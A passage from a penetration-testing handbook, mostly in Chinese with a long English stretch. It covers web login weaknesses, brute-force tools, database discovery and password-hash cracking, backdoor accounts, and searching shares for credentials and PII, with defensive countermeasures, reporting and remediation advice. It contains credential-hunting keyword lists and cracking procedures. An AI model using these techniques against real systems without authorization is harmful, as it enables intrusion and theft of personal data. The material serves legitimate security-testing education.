-   许多 Web 开发人员和站长使用这些脚本而不理解其工作原理或未进行测试，这可能导致严重的安全漏洞。

-   要测试脚本漏洞，你可以手动浏览脚本，或使用文本搜索工具（如 Windows 开始菜单内置的搜索功能或 Linux 的 Find 程序）查找任何硬编码的用户名、密码及其他敏感信息。

-  搜索 *admin*、*root*、*user*、*ID*、*login*、*signon*、*password*、*pass*、*pwd* 等关键词。

-   脚本中嵌入的敏感信息通常并非必要，往往是由于把便利性置于安全之上导致的低质量编码结果。

### 对默认脚本攻击的防范措施

-   以下措施可帮助防止默认 Web 脚本的攻击：

*   在将脚本部署到 Web 环境前，先了解其工作原理。

*   在使用前，确保从 Web 服务器上彻底删除所有默认或示例脚本。

*   保持内容管理系统软件的更新，尤其是 WordPress，因为它是攻击者的主要目标。

    

-   切勿使用包含硬编码机密信息的公开可访问脚本，它们是安全事件的导火索。

*   为站点或应用的敏感区域设置文件权限，防止公众访问。

### 不安全的登录机制

-   许多网站要求用户登录后才能使用应用。

-   这些登录机制可能在处理错误的用户 ID 或密码时不够优雅，从而泄露攻击者可以用于猜测有效用户 ID 和密码的信息。

-   要测试不安全的登录机制，请访问你的应用，并尝试以下登录方法：

*   使用无效的用户 ID 但有效的密码。

*   使用有效的用户 ID 但无效的密码。

*   使用无效的用户 ID 与无效的密码。

-  输入上述信息后，Web 应用通常会返回类似 `Your user ID is invalid` 或 `Your password is invalid` 的消息。

-  或者，应用可能返回通用错误信息，如 `Your user ID and password combination is invalid`，并在 URL 中返回不同的错误码，分别对应无效的用户 ID 和无效的密码，如图 15-7 和 15-8 所示。

-  

-    当输入无效的用户 ID 时，URL 会返回错误。

-  

-    当输入无效的密码时，URL 会返回不同的错误。

-  这两种情况都很糟糕，因为应用不仅告诉你哪个参数无效，还告诉你哪个参数是有效的。攻击者现在知道一个有效的用户名或密码，工作量被削减一半！如果他们知道用户名（通常更容易猜到），就可以编写脚本自动化密码破解过程，反之亦然。

-  你也应该通过使用诸如 Brutus（[`www.hoobie.net/brutus/index.html`](http://www.hoobie.net/brutus/index.html)）等 Web 登录破解工具将登录测试提升到更高水平，如图 15-9 所示。Brutus 是一个简单的工具，可通过字典和暴力攻击来破解 HTTP 和基于表单的身份验证机制。

-  

-    Brutus 工具用于测试弱 web 登录。

-  

-  与任何密码测试一样，这项任务可能很长且繁琐，并且有风险锁定用户账户。请谨慎进行。

-  另一个用于破解 Web 密码的工具是 THC-Hydra（[`https://tools.kali.org/password-attacks/hydra`](https://tools.kali.org/password-attacks/hydra)）。

-  商业 Web 漏洞扫描器通常具备不错的字典式 Web 密码破解功能，但没有（据我所知）能像 Brutus 那样进行真正的暴力测试。

-  如我在第 8 章（Chapter 8）中讨论的那样，你的密码破解成功高度依赖于字典列表。

-  以下是一些常见的字典文件和其他词表来源：

*    `ftp://ftp.cerias.purdue.edu/pub/dict` 

*   [ `https://packetstormsecurity.org/Crackers/wordlists` ](https://packetstormsecurity.org/Crackers/wordlists)

*   [ www.outpost9.com/files/WordLists.html ](http://www.outpost9.com/files/WordLists.html)


Acunetix Web Vulnerability Scanner 在扫描时能很好地测试弱密码。我曾使用该扫描器发现了原本我不会找到的弱网页密码，这些发现往往会导致对系统的进一步渗透。

你可能根本不需要密码破解工具，因为许多前端 Web 系统（如存储管理系统、IP 视频系统和物理访问控制系统）都自带密码，这些默认密码通常是 `password`、`admin` 或空。有些密码甚至直接写在登录页面的源码中，例如图 15-10（第 207、208 行）所示的网络摄像头源码。


FIGURE 15-10: A network camera’s login credentials embedded directly in its HTML source code.

### 针对不安全登录系统的防范措施

你可以采取以下措施，防止攻击者利用弱登录系统攻击你的 Web 应用：

*   向用户返回的登录错误应尽可能通用，例如 `Your user ID and password combination is invalid`。

*   应用程序永不在 URL 中返回错误码以区分无效用户名和无效密码。

    如果必须在 URL 中返回信息，应保持其尽可能通用。示例：

    `www.your_web_app.com/login.cgi?success=false`

    虽然这个 URL 信息对用户不够便利，但它能隐藏实现机制和背后的操作，防止攻击者探测。

*   使用 CAPTCHA（如 reCAPTCHA）或 Web 登录表单，帮助防止密码破解尝试。

*   在 Web 服务器或 Web 应用中启用 Intruder 锁定机制，在大约 10 次失败登录后锁定用户账户。该操作可通过会话跟踪或第三方 Web 应用防火墙插件实现，详见“Putting up firewalls”。

*   检查并更改任何厂商默认密码为难记且难破解的密码。

### 对 Web 应用漏洞进行通用安全扫描

我想再次强调，你需要对 Web 系统进行自动化和手动两种测试。单靠其中一种方法无法看到完整图景。我 *高度* 推荐使用 Acunetix Web Vulnerability Scanner 或 Netsparker 等全能 Web 漏洞扫描器，以发现难以或不可能通过其他方式发现的漏洞。将扫描结果与恶意思维以及本章节描述的黑客技术结合，你就能找到真正重要的 Web 安全漏洞。

### 降低 Web 安全风险

保持 Web 应用安全需要持续的漏洞和渗透测试，以及 Web 开发者和供应商的持续关注。跟随最新的黑客技术、测试工具和手段，并让开发者和供应商认识到安全是组织的首要任务。我讨论如何获得安全认同在 第 20 章。

你可以通过以下资源获得实际测试和黑客 Web 应用的经验：

*   OWASP WebGoat 项目（[`https://www.owasp.org/index.php/Category:OWASP_WebGoat_Project`](https://www.owasp.org/index.php/Category:OWASP_WebGoat_Project)）。

*   Foundstone 的 Hacme Tools（[`https://www.mcafee.com/hk/downloads/free-tools/hacme-bank.aspx`](https://www.mcafee.com/hk/downloads/free-tools/hacme-bank.aspx) 与 [`https://www.mcafee.com/uk/downloads/free-tools/hacmebooks.aspx`](https://www.mcafee.com/uk/downloads/free-tools/hacmebooks.aspx)）。

强烈建议你尝试这些工具，亲自动手！

### 通过隐蔽实现安全

以下 *隐蔽安全*（使用平凡手段隐藏真实情况）的方式可以防止蠕虫或脚本等自动化攻击，这些攻击针对特定脚本类型或默认 HTTP 端口：

*   为保护 Web 应用及关联数据库，使用不同机器运行每个 Web 服务器、应用服务器和数据库服务器。

    这些机器的操作系统应经过安全漏洞检测并依据最佳实践和章节 12 与 13 中的防范措施进行硬化。

*   利用 Web 服务器内置的安全特性处理访问控制和进程隔离，例如 IIS 的“应用程序隔离”功能。这样如果一个 Web 应用被攻击，其他运行在同一服务器上的应用未必受到影响。

*   使用工具隐藏 Web 服务器的身份，即匿名化服务器。例如 Port 80 Software 的 ServerMask（[`https://www.port80software.com/products/servermask`](https://www.port80software.com/products/servermask)）。

*   如果你在 Linux 服务器上运行 Web 服务，可使用 IP Personality（[`http://ippersonality.sourceforge.net`](http://ippersonality.sourceforge.net)）修改操作系统指纹，使服务器看起来像是运行其他系统。

*   将 Web 应用改为非标准端口运行。将默认 HTTP 端口 80 或 HTTPS 端口 443 改为高位端口（如 8877），并在可能的情况下让服务以非特权用户（非 system、admin、root 等）运行。

绝不要单靠隐蔽来保障安全；它并不完美。专注的攻击者可能会发现系统并非其宣称的那样。即便如此，它仍然优于无 protection。

### 部署防火墙

考虑采用以下控制措施保护 Web 系统：

*   网络层防火墙或入侵防御系统（IPS），能够检测并阻止针对 Web 应用的攻击。这类工具包括 WatchGuard（[`https://www.watchguard.com`](https://www.watchguard.com)）和 Palo Alto Networks（[`https://www.paloaltonetworks.com`](https://www.paloaltonetworks.com)）的商业防火墙。

*   主机层 Web‑应用 IPS，如 ServerDefender VP（[`https://www.port80software.com/products/serverdefender`](https://www.port80software.com/products/serverdefender)）。

*   供应商防火墙，如 Barracuda Networks（[`https://www.barracuda.com/products/webapplicationfirewall`](https://www.barracuda.com/products/webapplicationfirewall)）、Cloudflare（[`https://www.cloudflare.com/waf`](https://www.cloudflare.com/waf)）和 FortiNet（[`https://www.fortinet.com/products/web-application-firewall/fortiweb.html`](https://www.fortinet.com/products/web-application-firewall/fortiweb.html)）。

这些程序能够实时检测 Web 应用及部分数据库攻击，并在攻击发生前将其切断，防止造成损害。

### 分析源代码

大多数软件安全漏洞始于（并应在）源代码阶段结束，但往往并未如此。如果你对现有的安全测试工作感到自信，可以进一步检查源代码，寻找传统扫描和测试手段可能忽略的安全缺陷。别担心！过程比听起来更简单，你不必逐行阅读代码，也不必具备开发经验（虽然这会有帮助）。


你可以使用静态源代码分析工具，例如 `Visual Code Grepper` ([`https://sourceforge.net/projects/visualcodegrepp`](https://sourceforge.net/projects/visualcodegrepp))、`SonarQube` ([`https://www.sonarqube.org`](https://www.sonarqube.org/)) 或 `PVS-Studio Analyzer` ([`https://www.viva64.com/en/pvs-studio`](https://www.viva64.com/en/pvs-studio))。

源代码分析通常能发现传统的应用程序安全测试所未覆盖的各种缺陷。如果你想获得最全面的测试水平，请两者都进行。源代码分析提供的额外检查层级日益重要。这些应用程序往往充满了许多新手开发者在学校里未曾学习的安全漏洞。

基于我对一些高端商业源代码分析工具的经验，我不确定花费巨额资金购买商业产品是否值得。虽然这些工具确实有帮助，尤其是在大型、复杂的应用环境中，但 Web 应用和移动应用安全的核心原则是：如果你能向你的开发人员和质量保证分析师展示安全始于他们，你就能在组织的整体信息安全方面产生影响。

## 揭露移动应用缺陷

除了运行源代码分析器外，检查移动端的应用漏洞也很重要。你需要寻找以下几类问题：

*   硬编码在应用中的加密数据库密钥。

*   对敏感信息的处理不当，例如将个人可识别信息本地存储，导致用户或其他应用可以访问。

*   登录弱点，如绕过登录提示的能力。

*   网络通信弱点，如明文通信或使用过时的协议（如 SSL）。

*   允许使用弱密码或空密码。

这些检查大多通过手动分析发现，可能需要使用无线网络分析仪、取证工具以及代理工具（我在第 9 章和第 11 章分别介绍了这些工具）。此外，结合本章其他章节提到的工具和技术，请务必检查你的移动应用所交互的 Web 服务端点的 SQL 注入弱点。正如物联网（IoT）一样，检查移动应用的安全性很重要。先由你自己发现缺陷，而不是让别人先发现。

第 16 章

## 数据库与存储系统

## 本章内容

`Testing and exploiting database flaws`

`Finding storage weaknesses`

`Ferreting out sensitive information`

`Countering database and storage abuse`

针对数据库和存储系统的攻击可能非常严重，因为“贵重资产”就在那里，恶意行为者也充分意识到这一点。这些攻击可以通过 Internet 或者内部网络发生，外部攻击者和恶意内部人员利用各种漏洞进行攻击。攻击也可以通过 Web 应用发生，例如通过 SQL 注入。本章节介绍一些常见漏洞，利用这些漏洞后对业务影响极大。

## 深入数据库

数据库系统 —  — 如 `Microsoft SQL Server`、`MySQL` 和 `Oracle` —  — 长期隐藏在背后，但它们的价值和漏洞终于受到关注。是的，即使是曾被宣称“难以破解”的 `Oracle`，也和竞争对手一样容易受到攻击。随着数据库安全监管要求的增多，几乎没有任何企业能够回避这些风险，因为几乎所有企业（大小不等）都使用某种数据库，无论是本地部署还是云端托管。

### 选择工具

与无线网络、操作系统等一样，如果要找到真正重要的数据库安全问题，你需要良好的工具。以下是我最喜欢的数据库安全测试工具：

*   `Advanced SQL Password Recovery` ([`https://www.elcomsoft.com/asqlpr.html`](https://www.elcomsoft.com/asqlpr.html)) 用于破解 `Microsoft SQL Server` 密码。

*   `Cain & Abel` ([`www.oxid.it/cain.html`](http://www.oxid.it/cain.html)) 用于破解数据库密码哈希。

*   `Nexpose` ([`https://www.rapid7.com/products/nexpose`](https://www.rapid7.com/products/nexpose)) 用于进行深度漏洞扫描。

*   `SQLPing3` ([www.sqlsecurity.com/downloads](http://www.sqlsecurity.com/downloads)) 用于在网络中定位 `Microsoft SQL Servers`，检查 `sa` 账户（默认的系统管理员账户）是否为空密码，并执行字典式密码破解攻击。

你也可以结合网络漏洞扫描工具（如 `Nexpose`）与 exploit 工具（如 `Metasploit`）进行数据库测试。

### 发现网络中的数据库

发现数据库漏洞的第一步是确定它们在网络中的位置。听起来很奇怪，但许多网络管理员并不清楚其环境中运行的各种数据库。这种情况尤其适用于免费的 `SQL Server Express` 版本，用户可以下载并运行在你的网络中。

我经常发现敏感的生产数据，如信用卡号和社会安全号，被用于测试数据库，并且这些数据库对网络内的好奇内部人员甚至已经进入网络的外部攻击者公开可用。将敏感的生产数据用于销售、软件开发、质量保证等未受控区域，就是一场即将发生的数据泄露。

我找到的最佳工具是 `SQLPing3`（参见图 16-1）。


FIGURE 16-1: SQLPing3 可发现 SQL Server 系统并检查缺失的 sa 账户密码。

`SQLPing3` 甚至能够发现被个人防火墙（如 `Windows Firewall`）隐藏的 `SQL Server` 实例。这一功能很有用，因为 `Windows Firewall` 在 Windows 7 及以后的版本中默认启用。

如果你的环境中有 `Oracle`，Pete Finnigan 在 [`www.petefinnigan.com/tools.htm`](http://www.petefinnigan.com/tools.htm) 上提供了一个非常好的 Oracle 相关安全工具列表，功能类似于 `SQLPing3`。

### 破解数据库密码

`SQLPing3` 同时也作为一个基于字典的 `SQL Server` 密码破解程序。如图 16-1 所示，它默认检查 `sa` 账户的空密码。另一个免费工具 `Cain & Abel` 可用于破解 `SQL Server`、`MySQL` 和 `Oracle` 的密码哈希，如图 16-2 所示。


FIGURE 16-2: 使用 Cain & Abel 破解 Oracle 密码哈希。

你只需加载 `Cain & Abel`，点击顶部的 `Cracker` 标签，选择左下角的 `Oracle Hashes`，然后点击顶部的蓝色加号图标加载用户名和密码哈希开始破解。你也可以选择左下角的 `Oracle TNS Hashes` 来尝试在捕获数据包时截获 `Transport Network Substrate` 哈希，同样适用于 `MySQL` 密码哈希。


商业产品 ElcomSoft Distributed Password Recovery ([`https://www.elcomsoft.com/edpr.html`](https://www.elcomsoft.com/edpr.html)) 也可以破解 Oracle 密码哈希。如果你有访问 SQL Server `master.mdf` 文件的权限（这些文件由于弱网络共享和文件权限，通常在网络中随时可用，如本章后面所述），你可以使用 ElcomSoft 的高级 SQL 密码恢复工具立即恢复数据库密码。

你可能会发现一些受密码保护的旧版 Microsoft Access 数据库文件。别担心：工具 Advanced Office Password Recovery 可以帮助你。此外，许多已停产或不再受支持的 Access 版本仍然存在。运行漏洞扫描器如 Nexpose 来发现缺陷可能会很有帮助。根据发现的结果，你可能会使用 Metasploit 来演示可能发生的情况。

正如你所想象的，这些密码破解工具是展示数据库安全中最基本弱点的好方法。它们也是突出网络中散落的关键文件未受保护的问题的好方式。

另一种展示 SQL Server 弱点的好方法是使用 SQL Server Management Studio ([`https://docs.microsoft.com/en-us/sql/ssms/download-sql-server-management-studio-ssms`](https://docs.microsoft.com/en-us/sql/ssms/download-sql-server-management-studio-ssms)) 连接到你已有密码的数据库系统，并设置后门账户或浏览查看（并展示）可用内容。几乎所有我遇到的未受保护的 SQL Server 系统都有敏感的个人财务或医疗信息可供获取。只需执行以下查询即可访问任何表中的记录：

`select * from tablename`

### 扫描数据库漏洞

与操作系统和 Web 应用程序一样，某些数据库特定的漏洞只能通过正确的工具来发现。我使用 Nexpose 查找以下问题：

*   缓冲区溢出。

*   特权提升。

*   通过默认/未受保护账户可访问的密码哈希。

*   弱加密方法已启用。

一个优秀的全能商业数据库漏洞扫描器，可进行深入数据库检查（包括 SQL Server、Oracle 等用户权限审计）是 AppDetectivePRO ([`https://www.trustwave.com/Products/Database-Security/AppDetectivePRO`](https://www.trustwave.com/Products/Database-Security/AppDetectivePRO/))。如果你能证明其投资价值，AppDetectivePRO 是一个很好的安全测试工具集成。

许多漏洞可以从未认证的外部视角以及受信任的内部视角进行测试。关键是尽可能从多角度审查数据库的安全性。如前所述，如果数据库存在且可访问，人们就会对其进行操作。

## 遵循最佳实践，最小化数据库安全风险

如果你做以下事情，数据库安全会相对简单：

*   在专用服务器（或必要时的工作站）上运行数据库。

*   检查底层操作系统的安全漏洞。（我在第 12 和 13 章节中分别介绍了 Windows 和 Linux 的操作系统漏洞。）

*   确保数据库在漏洞扫描、补丁和系统硬化的范围内。

*   寻找并替换（或将其隔离）已过生命周期的数据库系统。它们太危险，不能留着。

*   要求每个数据库系统都有强密码。大多数企业级数据库，如 Oracle 和 SQL Server，支持使用域身份验证（如 Active Directory 或 LDAP），这样你可以与现有域策略和用户账户关联，而无需管理单独的一套账户。

*   使用适当的文件和共享权限，阻止窥视。

*   在开发或质量保证等非生产环境中，在使用前对敏感生产数据进行去标识化处理。

*   检查你的 Web 应用是否存在 SQL 注入和相关输入验证漏洞。（我在第 15 章节中介绍 Web 应用安全。）

*   使用网络防火墙，如 Fortinet ([`https://www.fortinet.com`](https://www.fortinet.com/)) 或 Cisco ([`https://www.cisco.com`](https://www.cisco.com/)) 提供的类型，以及 Imperva ([`https://www.imperva.com`](https://www.imperva.com/)) 和 IDERA ([`https://www.idera.com`](https://www.idera.com/)) 提供的数据库特定控制。

*   使用诸如 Microsoft Security Compliance Manager ([`https://technet.microsoft.com/en-us/library/cc677002.aspx`](https://technet.microsoft.com/en-us/library/cc677002.aspx)) 等工具进行相关数据库硬化和管理。

*   使用最新版本的数据库服务器软件。Oracle、SQL Server 2016 和 SQL Server 2017 的新安全功能为本地数据库以及云端数据库提供了更好的安全性。

## 打开存储系统的讨论

攻击者正在实施越来越多的与存储相关的攻击，并使用各种攻击向量和工具破坏存储环境。（你肯定知道我接下来要说什么。）因此，你需要了解相关技术和工具，并用它们测试自己的存储环境。

关于 Fibre Channel 和 iSCSI 存储区网络（SAN）、基于 CIFS 和 NFS 的网络附加存储（NAS）系统等存储系统的安全性，存在许多误解和神话。许多网络和存储管理员认为加密或 RAID 等同于存储安全，外部攻击者无法访问公司存储环境，公司系统具有弹性，或安全由他人处理。所有这些信念都非常危险，我有信心未来更多攻击将针对关键存储系统。

与数据库一样，几乎所有企业都有存储网络，其中包含敏感信息，公司无法承受丢失。因此，将网络存储（SAN 和 NAS 系统）以及传统文件共享纳入安全测试范围很重要。

### 选择工具

以下是我最喜欢的存储安全测试工具：

*   **nmap** ([`http://nmap.org`](http://nmap.org)) 用于端口扫描，以查找存活的存储主机。

*   **SoftPerfect Network Scanner** ([`https://www.softperfect.com/products/networkscanner`](https://www.softperfect.com/products/networkscanner)) 用于查找开放且未受保护的共享。

*   **FileLocator Pro** ([`https://www.mythicsoft.com`](https://www.mythicsoft.com)) 用于查找特定文件和信息。

*   **Nexpose** 用于进行深入的漏洞扫描。

### 在网络中查找存储系统

要发现存储相关的漏洞，首先必须确定存储的位置。最佳启动方式是使用端口扫描器，最好结合使用像 Nexpose 或 LanGuard 这样的全能漏洞扫描器。此外，由于许多存储服务器内置 Web 服务器，你可以使用 Acunetix Web Vulnerability Scanner 和 Netsparker 等工具发现基于 Web 的缺陷。这些漏洞扫描器可帮助你了解需要进一步检查的区域，如弱加密、未打补丁的操作系统和跨站脚本。


A commonly overlooked storage vulnerability is that many storage systems can be accessed from both the demilitarized zone (DMZ) segment and the internal network segment(s). This vulnerability poses risks to both sides of the network. Be sure to check manually to see whether you can reach the DMZ from the internal network, and vice versa.

You can also perform basic file permission and share scans (as outlined in Chapter 12) in conjunction with a text search tool to uncover sensitive information that no one on the network should have access to. Digging down further, a quick means for finding open network shares is to use SoftPerfect Network Scanner’s share scanning capabilities, as shown in Figure 16-3.


 FIGURE 16-3:  Using SoftPerfect Network Scanner to search for network shares.

As you can see in Figure 16-3, Network Scanner enables you to perform a security and security permission scan for all devices or simply folders. I recommend selecting Specific Account in the Authentication section and then clicking Manage so that you can enter a domain account for the network that has general user permissions. This technique provides a good level of access to determine which shares are accessible.

When Network Scanner completes its scan, the shares showing Everyone in the Shared Folder Security column are the shares that need attention. I rarely complete a security assessment without coming across such shares open to the Windows Everyone group. Just as common is seeing the directories and files within these shares that are accessible to any logged-in Windows user to open, modify, delete, and do whatever else they please. How’s that for accountability?

### Rooting out sensitive text in network files

When you find open network shares, scan for sensitive information stored in files such as `.pdf`, `.docx`, and `.xlsx` files. The process is as simple as using a text search utility such as FileLocator Pro. Alternatively, you can use Windows Explorer or the `find` command in Linux to scan for sensitive information, but that process is too slow and cumbersome for my liking.

You'll be *amazed* by what you come across stored insecurely on users’ desktops, server shares, and more, such as the following:

*   Employee health records

*   Customer credit card numbers

*   Corporate financial reports

*   Source code

*   Master database files

The sky’s the limit. Such sensitive information should be protected by good business practices, and it’s also governed by state, federal, and international regulations, so make sure that you find it and secure it.

Do your searches for sensitive text while you’re logged in to the local system or domain as a regular user — not as an administrator. This practice gives you a better view of regular users who have unauthorized access to sensitive files and shares that you thought were secure. When using a basic text search tool such as FileLocator Pro, look for the following text strings:

*   DOB (for dates of birth)

*   SSN (for Social Security numbers)

*   License (for driver’s-license information)

*   Credit or CCV (for credit-card numbers)

Don’t forget about your mobile devices when seeking sensitive, unprotected information. Everything from laptops to USB drives to external hard drives is fair game to the bad guys. A misplaced or stolen system can create a costly data breach. The same can be said for cloud-based file sharing services such as OneDrive and Sharefile.

The possibilities for information exposure are endless. Start with the basics, and peek only into common files that you know may have some juicy info in them. Limiting your search to these files will save you a ton of time:

*    `.txt` 

*    `.doc`  and `.docx`

*    `.rtf` 

*    `.xls`  and `.xlsx`

*    `.pdf` 

Figure 16-4 shows a basic text search with FileLocator Pro. Notice the files located on different parts of the server.


 FIGURE 16-4:  Using FileLocator Pro to search for sensitive text on unprotected shares.

FileLocator Pro can also search for content inside `.pdf` files to uncover sensitive data.

To speed the process, use Spirion's Sensitive Data Manager ([`https://www.spirion.com`](https://www.spirion.com)). This product, formerly known as IdentityFinder and since rolled into the company’s enterprise data discovery platform, is a neat tool designed for scanning storage devices for sensitive, personally identifiable information. It can also search inside binary files such as PDFs.

For a second round of testing, you could perform your searches while logged in as an administrator. You’re likely to find a lot of sensitive information scattered about. It might seem worthless at first, but it can highlight sensitive information stored in places where it shouldn’t be or that network administrators shouldn’t be able to access.

Testing is highly dependent on timing, searching for the right keywords, and looking at the right systems on the network. You likely won’t root out every single bit of sensitive information, but this effort shows you where certain problems are, which helps you justify the need for stronger access controls and for better IT and security management processes.

## Following Best Practices for Minimizing Storage Security Risks

Like database security, storage security isn’t brain surgery. Keeping your storage systems secure is simple, too, if you do the following things:

*   Check the underlying operating systems for security vulnerabilities. I cover operating system exploits for Windows and Linux in chapters 12 and 13.

*   Ensure that your network storage (SAN and NAS systems) falls within the scope of patching and system hardening.

*   Require strong passwords on every storage management interface.

*   Use appropriate file and share permissions to keep prying eyes away.

*   Educate your users on where to store sensitive information and the risks of mishandling it.

*   Deidentify any sensitive production data before it’s used in development or quality assurance, using tools made for this purpose.

*   Use a network access control lists or a firewall, such as those available from Fortinet ([`https://www.fortinet.com`](https://www.fortinet.com)) or WatchGuard Technologies ([`https://www.watchguard.com`](https://www.watchguard.com)) to ensure that only the people and systems with a business need to access your storage environment can do so — and do nothing more.

Part 6

## Security Testing Aftermath

IN THIS PART …

Report your way to success with security testing deliverables that management can understand and appreciate.

Follow-up on your security vulnerabilities so that they’re not exploited.

Implement good security practices into your day-to-day information technology and business operations to help build resilience.

Chapter 17

## Reporting Your Results

IN THIS CHAPTER

**Bringing your test data together**

**Categorizing vulnerabilities you discover**

**Documenting and presenting the results**


如果您希望在测试后休息，现在不是放松的时机。您的安全评估报告阶段是最关键的环节之一。最后一件事是进行测试、发现安全问题后就结束工作。请将时间和精力用于深入分析和记录您发现的问题，以确保安全漏洞被消除，从而提升信息安全性。报告是信息安全和风险管理所需的持续性审慎工作的重要组成部分。

报告包括对所有发现进行筛选，以确定哪些漏洞需要处理、哪些不重要。报告还包括向管理层或客户汇报发现的各类安全问题，并提供具体的改进建议。您共享已收集的信息，并指导其他相关方后续行动。报告也证明了在安全测试中投入的时间、精力和金钱被有效利用。

## Pulling the Results Together

当您拥有大量测试数据时——从您记录的屏幕截图和手动观察，到各类漏洞扫描器生成的详细报告——您该如何处理这些信息？您需要仔细审阅文档，挑出所有突出的区域。基于以下因素做出决策：

*   由评估工具给出的漏洞排名，通常基于 **Common Vulnerability Scoring System**。

*   您作为 IT/安全专业人员的知识（通常比工具提供的更有价值）。

*   漏洞的上下文及其对业务的影响。

为了提供更多关于漏洞的信息，许多功能丰富的安全工具会为每个漏洞分配风险等级（基于整体风险），解释漏洞，给出可能的解决方案，并包含相关供应商网站链接、Common Vulnerabilities and Exposures 网站 (`https://cve.mitre.org`)、National Vulnerabilities Database (`https://nvd.nist.gov`)。为进一步研究，可参考供应商网站、其他支持站点和在线论坛，查看该漏洞是否影响您的系统和环境。总体业务风险是重点关注的对象。

在最终报告文档中，您可能希望按以下列表组织漏洞：

*   非技术性发现 

    *   社会工程学

    *   物理安全

    *   IT 与安全运营

*   技术性发现 

    *   网络基础设施

    *   防火墙规则集

    *   服务器和工作站

    *   数据库

    *   Web 应用

    *   移动应用

    *   移动设备

为更清晰地呈现，您可以在报告中为内部和外部安全漏洞、以及关键、高、中等优先级分别建立独立章节。最后提醒：最好在测试的规划阶段就确定具体的报告格式，这样从开始到交付结果的全过程，相关方都能保持一致。

## Prioritizing Vulnerabilities

发现的安全漏洞进行优先级排序至关重要，因为许多问题无法修复，或修复并不值得投入。您可能因技术原因无法消除某些漏洞，也可能因成本考虑无法负担消除其他漏洞。或者，业务本身对风险容忍度有特定要求。每种情况都不同。您需要判断修复的收益是否值得投入的时间和金钱。

例如，花费数周开发时间修复跨站脚本（XSS）和 SQL 注入漏洞可能非常值得，尤其是如果您因此受到第三方检查或失去潜在客户的影响。同样，对于普遍认为移动设备不存储敏感信息的假设，也需要仔细审视每个漏洞，评估业务风险，权衡是否值得修复。

不可能——或者至少不值得——修复所有发现的漏洞。请仔细分析每个漏洞，确定最坏情况。例如，您的打印机 Web 界面可能存在跨站请求伪造（CSRF）漏洞，您需要评估其业务风险。或者，您可能会盲目相信网络上的所谓专家/黑客的意见，让他们决定您应集中精力的位置，尽管他们对您或您的业务一无所知。（这纯属玩笑。）另一个例子是，FTP 可能运行在大量内部服务器以及外部可访问系统上，您需要评估其业务风险。对于许多安全缺陷，您往往发现根本没有风险。

我发现，在安全——正如大多数生活领域一样——必须专注于高回报任务，否则会被琐事分散注意力，自我折磨，且难以实现自身目标。以下是一个快速的优先级排序方法，您可以根据自身需求进行微调。在发现每个漏洞时，请考虑以下两个主要因素：

*   **利用的可能性**：该漏洞被黑客、恶意用户、恶意软件或其他威胁利用的可能性有多大？

*   **利用的影响**：如果该漏洞被利用，会有多大的破坏性？

很多人往往跳过这些考量，假设每个发现的漏洞都必须修复。这是大错特错。仅凭发现漏洞就认为必须处理，而不考虑实际环境，会导致大量时间的、精力和金钱的浪费，甚至可能使长期安全评估计划走向失败。

请注意，不要在相反方向过度偏移。表面上看似乎不严重的漏洞，若被利用仍可能给组织带来严重后果。务必深入挖掘，运用常识。

使用高、中、低或 1 到 5 的评分（1 为最低优先级、5 为最高）等标准对每个漏洞进行排名。Table 17-1 示例表格展示了各类别的样本漏洞。

TABLE 17-1 Prioritizing Vulnerabilities

|  | **High Likelihood** | **Medium Likelihood** | **Low Likelihood** |
| --- | --- | --- | --- |
| **High impact** | Sensitive information stored on an unencrypted laptop | Tape backups taken offsite that aren’t encrypted and/or password-protected | No administrator password on an internal SQL Server system |
| **Medium impact** | Unencrypted emails containing sensitive information being sent | Missing Windows patch on an internal server that can be exploited with Metasploit | No passwords required on several Windows administrator accounts |
| **Low impact** | Outdated virus signatures on a securely segmented PC dedicated to Internet browsing | Employees or visitors gaining unauthorized network access | Weak encryption ciphers being used on a marketing website |


-   表 17-1 中显示的漏洞优先级是基于评估安全风险的定性方法。换句话说，该表是主观的，基于对系统和漏洞的了解。你也可以考虑来自你安全工具的任何风险评级，但不要仅仅依赖它们，因为供应商无法提供漏洞的终极排名。

## 创建报告

你可能需要将漏洞信息组织成正式文档，用于管理层或客户。编写报告是一项专业的工作，表明你认真对待工作。挖掘关键发现并加以记录，让其他人能够理解。

图表和统计图是加分项。当保存数据到文件困难时，你的发现截图会为报告增添亮点，并提供问题真实存在的有力证据。

以简洁、非技术性的方式记录漏洞。每份报告应包含以下信息：

* 测试执行的日期。

* 执行的测试。

* 发现的漏洞摘要。

* 需要处理的漏洞优先级列表。

* 补丁安全漏洞的建议和具体步骤。

你总是通过对 IT/安全流程进行操作性评估来增加价值。我建议添加关于弱业务流程、管理层对 IT 和安全的支持等的总体观察，并为每个问题提供应对建议。你可以将此列表视为根本原因分析。

大多数人希望最终报告包含发现的摘要，而非全部内容。最后，没人想在漏洞扫描工具的 600 页 PDF 中翻找充满技术术语、对普通人意义不大的内容。许多咨询公司因这种报告收取高额费用，但这并不意味着这是对的。

管理员和开发人员需要从安全工具获取原始数据报告。这样他们可以在需要时查阅具体的 HTTP 请求/响应、缺失补丁的详情等。

在最终报告中，你可能需要记录在进行安全测试时观察到的行为。你可能会发现，在进行明显的社会工程攻击时，一些员工表现出漠不关心或敌意，或者 IT 或安全人员错过了技术线索（例如测试期间网络性能下降或系统日志中出现的各种攻击）。你可以记录其他安全问题，例如 IT 人员或托管服务提供商响应测试的速度，以及他们是否响应。

保护最终报告，防止未授权人员查看。若安全评估报告及相关数据和支持文件落入竞争对手、黑客或恶意内部人员手中，将给组织带来严重后果。以下是防止此类访问的措施：

* 仅向有业务需要知道的对象交付报告及相关文档和文件。

* 如果你通过电子方式发送最终报告，请加密所有附件，或通过 OneDrive for Business、Google Drive、ShareFile 等安全的云文件共享服务发送报告。

第 18 章

## 修补你的安全漏洞

IN THIS CHAPTER

**确定优先处理的漏洞**

**修补你的系统**

**以全新视角审视安全**

完成测试后，你想迈向更安全的道路。但你发现了一些安全漏洞——需要修复的问题（希望不多，或者严重程度不高）。在有人利用这些漏洞之前，你需要付出一点努力。你需要制定计划，决定先处理哪些安全漏洞。可能需要几次补丁，甚至需要系统加固。你可能需要购买新的安全技术，也可能需要重新评估你的网络设计和安全基础设施。我在本章中涉及了一些关键领域。

## 将报告转化为行动

看似最先要处理的漏洞似乎很明显，但答案可能并不清晰。在审查你发现的漏洞时，请考虑以下变量：

* 受影响系统的重要性

* 涉及的敏感信息或业务流程

* 漏洞是否可以修复

* 漏洞修复的难易程度

* 是否可以将系统离线以修复问题

* 购买新硬件或软件，或重新设计业务流程以填补漏洞所需的时间、金钱和精力

